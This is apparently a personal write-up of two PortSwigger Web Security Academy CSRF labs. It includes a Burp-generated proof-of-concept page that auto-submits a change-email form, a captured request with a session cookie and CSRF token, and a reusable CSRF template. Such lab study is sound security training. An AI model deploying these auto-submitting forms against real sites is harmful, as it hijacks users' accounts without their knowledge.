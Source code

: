 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## CSRF where token validation depends on request method
- We note that changing email requires a CSRF token that cannot be removed or nullified in the body of the POST request.
- Let's alter the POST request from:
```
POST /my-account/change-email HTTP/2
Host: 0aa300e903e645daa8aadef600a10092.web-security-academy.net
Cookie: session=6zRITg1tqB9Eh3jTUmhYmhCv0JewZeLJ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net
Referer: https://0aa300e903e645daa8aadef600a10092.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Te: trailers

email=wiener4%40normal-user.net&csrf=wxN4HFe3P0vgWDHNar2dTT0QuGrj8yy9
```
to 

![image](https://github.com/user-attachments/assets/28a9f86f-b4be-4d4e-87b1-8e09c212a52e)


## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
